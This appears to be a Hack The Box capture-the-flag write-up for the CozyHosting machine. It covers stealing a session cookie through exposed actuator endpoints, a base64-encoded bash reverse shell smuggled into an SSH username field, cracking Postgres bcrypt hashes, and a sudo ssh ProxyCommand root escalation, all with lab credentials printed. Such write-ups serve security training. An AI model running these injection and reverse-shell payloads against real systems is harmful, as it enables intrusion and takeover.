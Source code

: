 Nothing found with ffuf, but we found something with dirsearch

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/CozyHosting-10.10.11.230]
└─$ dirsearch -u http://cozyhosting.htb

  _|. _ _  _  _  _ _|_    v0.4.2                                                                                    
 (_||| _) (/_(_|| (_| )                                                                                             
                                                                                                                    
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/kali/.dirsearch/reports/cozyhosting.htb/_23-10-05_19-37-16.txt

Error Log: /home/kali/.dirsearch/logs/errors-23-10-05_19-37-16.log

Target: http://cozyhosting.htb/

[19:37:16] Starting: 
[19:37:27] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[19:37:31] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[19:37:32] 400 -  435B  - /a%5c.aspx                                        
[19:37:33] 200 -    5KB - /actuator/env                                     
[19:37:33] 200 -   15B  - /actuator/health                                  
[19:37:33] 200 -  634B  - /actuator                                         
[19:37:33] 200 -  148B  - /actuator/sessions                                
[19:37:33] 200 -   10KB - /actuator/mappings                                
[19:37:34] 200 -  124KB - /actuator/beans                                   
[19:37:34] 401 -   97B  - /admin                                            
[19:37:58] 200 -    0B  - /engine/classes/swfupload//swfupload.swf          
[19:37:58] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf       
[19:37:59] 500 -   73B  - /error                                            
[19:37:59] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[19:38:00] 200 -    0B  - /extjs/resources//charts.swf                      
[19:38:03] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf            
[19:38:05] 200 -   12KB - /index                                            
[19:38:10] 200 -    4KB - /login                                            
[19:38:10] 200 -    0B  - /login.wdm%2e                                     
[19:38:11] 204 -    0B  - /logout                                           
[19:38:27] 400 -  435B  - /servlet/%C0%AE%C0%AE%C0%AF                       
                                                                             
Task Completed
```

We found the webapp actuator

![[Pasted image 20231005200656.png]]

And under sessions service we can steal the admin cookie

![[Pasted image 20231005200733.png]]

Changing our cookie and accessing to http://cozyhosting.htb/admin we access to the admin panel. Here we have something that points to a ssh connection indicating the endpoint and user. Trying payloads we found the user field vulnerable, but we can use whitespaces. Using the `${IFS}` variable to introduce a blank space and encoding the payload to base64 we got a shell

```bash
┌──(kali㉿kali)-[~]
└─$ echo 'bash -i >& /dev/tcp/10.10.14.22/1234 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi8xMjM0IDA+JjEK

Hostname: 10.10.14.22
Username: ;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi8xMjM0IDA+JjEK"|base64${IFS}-d|bash;

---------------------

┌──(kali㉿kali)-[~/Documents/Boxes/CozyHosting-10.10.11.230]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.230] 36162
bash: cannot set terminal process group (1062): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ whoami
whoami
app
```

As app user we cannot view the user flag, so we execute `linpeas` and `pspy` to check where to proceed. We find some interesting things (like kanderson:MRdEQuv6~6P9 credentials) but nothing to move on. 

In the app folder we found a jar file. After move it to our machine we unzip the jar and we found the postgres credentials

![[Pasted image 20231006124021.png]]

So we can connect to postgres now

```bash
app@cozyhosting:/app$ psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost"    
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)

postgres=# \l
WARNING: terminal is not fully functional
Press RETURN to continue 
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |

postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

cozyhosting=# \d 
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres

cozyhosting=# SELECT * FROM users;
WARNING: terminal is not fully functional
Press RETURN to continue 
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson| $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin    | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
 ```

We have retrieve the hash for the admin user, lets try to crack it

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/CozyHosting-10.10.11.230]
└─$ vim admin.hash

┌──(kali㉿kali)-[~/Documents/Boxes/CozyHosting-10.10.11.230]
└─$ john -w=/usr/share/wordlists/rockyou.txt admin.hash 
Using default input encoding: UTF-8
manchesterunited (?)
```

And we have the password manchesterunited

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/CozyHosting-10.10.11.230]
└─$ ssh root@10.10.11.230               
Password: manchesterunited
Permission denied, please try again.

┌──(kali㉿kali)-[~/Documents/Boxes/CozyHosting-10.10.11.230]
└─$ ssh josh@10.10.11.230
Password: manchesterunited
josh@cozyhosting:~$ whoami
josh
```

And we have move laterally as josh with the credentials josh:manchesterunited

As we have the josh password, first we execute `sudo -l`

```bash
josh@cozyhosting:~$ sudo -l
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

And checking **[GTFOBins for ssh](https://gtfobins.github.io/gtfobins/ssh/#sudo)** we can spawn a root shell

```bash
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```